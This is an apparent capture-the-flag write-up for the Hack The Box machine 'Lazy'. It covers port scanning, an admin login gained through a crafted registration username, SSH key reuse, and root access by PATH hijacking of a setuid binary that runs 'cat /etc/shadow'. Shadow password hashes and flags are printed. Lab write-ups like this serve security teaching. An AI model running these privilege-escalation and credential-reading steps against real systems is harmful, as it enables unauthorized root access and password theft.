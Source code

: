 # Lazy
#### 10.10.10.18
###### Solved by: Dotaplayer365 and revdev

```{r, engine='bash', count_lines}
nmap -sS -sV 10.10.10.18

Nmap scan report for 10.10.10.18
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.48 seconds

```


Website directs us to devcompany's page
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/Website.PNG "Website")

**To start, you will need to create a user register and then log in to check this company's projects and potential.**

Tried some basic SQL Injections on the login page but nada.

So, lets create a testuser

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/testuserlogin.PNG "testuserlogin")



After creating a user, there is something peculiar

Once the user is registered, it automatically logs us in as that user.

Lets try and create a user with the name admin

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/adminalreadyexists.PNG "adminalreadyexists")

So admin already exists...
Maybe if we can trick the login form into thinking we have created the admin user, it should automatically log us into admin

Lets try and play with the username input field

So the user we create will be
```
admin =
```
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/loginwithadmin.PNG "loginwithadmin")

And we are IN!!
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/adminpage.PNG "adminpage")


There is a ssh key which we can download


![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/sshkey.PNG "sshkey")

Something important to note in the key page is the highlighted field. Thats the user the key is for

So we save the key in a file called mistos.key

Change its permissions to 600

```
root@kali:~/Hackthebox/Machines/Lazy# wget http://10.10.10.18/mysshkeywithnamemitsos
--2017-10-15 11:36:53--  http://10.10.10.18/mysshkeywithnamemitsos
Connecting to 10.10.10.18:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1679 (1.6K)
Saving to: ‘mysshkeywithnamemitsos’

mysshkeywithnamemitsos                      100%[===========================================================================================>]   1.64K  --.-KB/s    in 0s      

2017-10-15 11:36:53 (75.3 MB/s) - ‘mysshkeywithnamemitsos’ saved [1679/1679]

root@kali:~/Hackthebox/Machines/Lazy# mv mysshkeywithnamemitsos mitsos.key
root@kali:~/Hackthebox/Machines/Lazy# chmod 600 mitsos.key 
```

And we connect to mitsos

```
root@kali:~/Hackthebox/Machines/Lazy# ssh -i mitsos.key mitsos@10.10.10.18
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Oct 15 11:29:36 EEST 2017

  System load:  0.0               Processes:           178
  Usage of /:   7.6% of 18.58GB   Users logged in:     0
  Memory usage: 12%               IP address for eth0: 10.10.10.18
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Sun Oct 15 11:29:36 2017 from 10.10.15.189
mitsos@LazyClown:~$ 
```

**user.txt**
```
mitsos@LazyClown:~$ cat user.txt
d558e7924bdfe31266ec96b007dc63fc
```

**Priv Esc**

```
mitsos@LazyClown:~$ ls -l
total 20
-rwsrwsr-x 1 root   root   7303 May  3 00:02 backup
drwxrwxr-x 4 mitsos mitsos 4096 May  2 18:41 peda
-rw------- 1 root   root     33 Oct 15 04:54 tmp.txt
-rw------- 1 mitsos mitsos   33 May  3 18:52 user.txt
```

There is a executable named backup

When we try and run it, it gives something like this
```
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```

Lets run a strings on it

```
mitsos@LazyClown:~$ strings backup 
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
system
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
cat /etc/shadow
;*2$"
...
...
...
```

So its a simple exec which runs the command "cat /etc/shadow" and it is run by root

This is perfect for priv esc!

Our path contains
```
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

What we can do is create a executable with the name cat in our home directory and add the our home directory to our $PATH

Lets start by addint the $PATH first
```
mitsos@LazyClown:~$ export PATH="/home/mitsos:$PATH"
mitsos@LazyClown:~$ echo $PATH
/home/mitsos:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now we need to create a cat executable.

We can create a bash script which will spawn a bash shell

Something as simple as
```
#!/bin/sh

/bin/sh
```

```
mitsos@LazyClown:~$ vim cat
mitsos@LazyClown:~$ chmod 777 cat
mitsos@LazyClown:~$ ls -l
total 24
-rwsrwsr-x 1 root   root   7303 May  3 00:02 backup
-rwxrwxrwx 1 mitsos mitsos   19 Oct 15 23:00 cat
drwxrwxr-x 4 mitsos mitsos 4096 May  2 18:41 peda
-rw------- 1 root   root     33 Oct 15 04:54 tmp.txt
-rw------- 1 mitsos mitsos   33 May  3 18:52 user.txt
```

We run "backup" now and it should pawn this lazy banana

```
mitsos@LazyClown:~$ ./backup 
# id
uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)
```
Remember, the cat command wont work now. So to use it we have to call it directly from /bin/cat

**root.txt**
```
/binn/cat /root/root.txt
990b142c3cefd46a5e7d61f678d45515
```

